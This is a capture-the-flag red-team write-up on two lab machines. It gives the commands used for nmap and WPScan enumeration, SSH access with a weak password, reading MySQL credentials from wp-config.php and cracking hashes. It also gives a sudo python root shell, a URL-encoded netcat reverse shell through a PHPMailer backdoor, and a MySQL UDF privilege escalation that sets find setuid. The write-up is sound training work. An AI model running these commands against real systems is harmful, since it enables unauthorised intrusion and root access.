 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sC -sV 192.168.1.110
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-17 11:24 PDT
Nmap scan report for raven.local (192.168.1.110)
Host is up (0.00073s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 26:81:c1:f3:5e:01:ef:93:49:3d:91:1e:ae:8b:3c:fc (DSA)
|   2048 31:58:01:19:4d:a2:80:a6:b9:0d:40:98:1c:97:aa:53 (RSA)
|   256 1f:77:31:19:de:b0:e1:6d:ca:77:07:76:84:d3:a9:a0 (ECDSA)
|_  256 0e:85:71:a8:a2:c3:08:69:9c:91:c0:3f:84:18:df:ae (ED25519)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Raven Security
111/tcp open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          33174/tcp   status
|   100024  1          41697/udp   status
|   100024  1          43643/tcp6  status
|_  100024  1          46476/udp6  status
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.2.14-Debian (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

This scan identifies the services below as potential points of entry:
- Target 1
  - SSH on Port 22 verison 6.7p1
  - HTTP Apache Server on Port 80  version 2.4.10  
  - RPC on Port 111 
  - SMBD on Port 139 version 3.x -4.x
  - SMBD on Port 445 version 4.2.14

The following vulnerabilities were identified on target 1:
- Target 1
  - Weak Passwords
    
   - Easy to crack and guess  
  
  - Exposed MYSQL credentials inside of file
  
  - User is able to run Python as Root 

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  -  flag1{b9bbcb33e11b80be759c4e844862482d} 
    - Used google inspect element to find the flag hidden in the code


  flag2.txt: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
  
  I used WPSCAN to Enumerate user Michael and Steven 
  
  Command:  `WPSCAN -url 192.168.1.110 --enumerate u`
  
  ![wp-scan](/Images/WP-scan.png)
   
   - Used  basic Brute force to SSH into Michael's user
   - Weak Password used (michael)
      
     Command:  `
      ssh michael@192.168.1.110
      `
      
    -found flag inside of `/var/www/html/ `
    -screenshot here
    
    
   -  flag3: flag3{afc01ab56b50591e7dccf93122770cd2}
   - Foound exposed mysql credentials inside of /var/www/html/wordpress/wp-config.php

![exposed sql server creds](/Images/sqlcreds.png)

    - mysql -u root -p
    - Found user password hashes after running:
      - select * from wp_users; 
      
![user password hashes](/Images/hashes.png)

    - cracked password hashes with john 
 
 ![john](Images/john.png)
 
    - Found flag3 after running
     select * from wp_posts;
  
  ![flag1-3](Images/flag31.png)
  
    
   - flag4:715dea6c055b9fe3337544932f2941ce}
   - logged into steven with password pink367 
  
   - ran sudo -l to see stevens permissions
   
   
    
    - We can run python as sudo so we can create shell as root with python
    - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell
    -sudo python -c 'import pty; pty.spawn("/bin/sh")'
    - screen shot 
     
     
    ## Target 2
    
    ###Enumeration
    
    - nmap -sC -sV 192.168.1.115
    
    - nitko -C all -h 192.168.1.115 
   
  ## The following vulnerabilities were identified on target 2:

   - Public facing web pages giving away system version and potential exploits
    
   - Easy to crack and guess  
   
   - Version is sensitive to backdoor exploit
  
  - Exposed MYSQL credentials inside of file
  
  - SQL is sensitive to UDF Dynamic Library Priveledge Escalation E-DB:1518 https://www.exploit-db.com/exploits/1518
  
  ### Exploitation
  
  #### flag1{a2c1f66d2b8051bd3a5874b5b6e43e21}
    
  First I enumerated directories with Gobuster 
  
  
  Then I found a vendor directory and found a flag inside ofthe PATH file
  
  - flag2{6a8ed560f0b5358ecf844108048eb337}
    -found information on version
    -screenshot 
    -found information on cves 
    -usew the backdoor exploit on the phpmailer 
    -gainer reverse shell on netcat 
      -used a url encoded reverse shell
      -cmd=nc%20<192.168.1.115>%204444%20-e%20/bin/bash
      -screenshot 
      -traversed directories and found flag2
    
  -flag 3 flag3{a0f568aa9de277887f37730d71520d9b}
  -find /var/www -type f -iname 'flag*'
  -this leads us to a png file 
  - we setup a simple http server insid the directory of the flagto download to the file to my attacking machine
  - python -m SimpleHTTPServer 8080 
  - wget http://192.168.1.115/flag3 

 ### Priviledge Escalation
   - `flag4{df2bc5e951d91581467bb9a2a8ff4425}`
   - `signed into mysql with credentials from last activity`
   - `enumerated the mysql for version number`
   - after running linenum and outside research I foudn the machine is vulnerable to udf dynamic library exploit 1518.c
   - `searchsploit –m 1518.c`
   - `gcc -g -shared -Wl,-soname,1518.so -o 1518.so 1518.c -lc`
   - setup python simple server to transfer 1518.so payload to ovictim machine
    - `Python -m SimpleHTTPServer`
    -  transfer into /tmp directory
   - `mysql -u root -p`
   - `use mysql; create table poo(line blob);`
   - `insert into poo values(load_file('/tmp/1518.so'));`
   - `select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so';`
   - `create function do_system returns integer soname '1518.so';`
   - `select do_system('chmod u+s /usr/bin/find');`
   - now we head back to the /tmp directory
   - ```touch raj
     find raj –exec "whoami" \;
     find raj –exec "/bin/sh" \;
     cd /root
      ls
     cat flag4.txt`
   
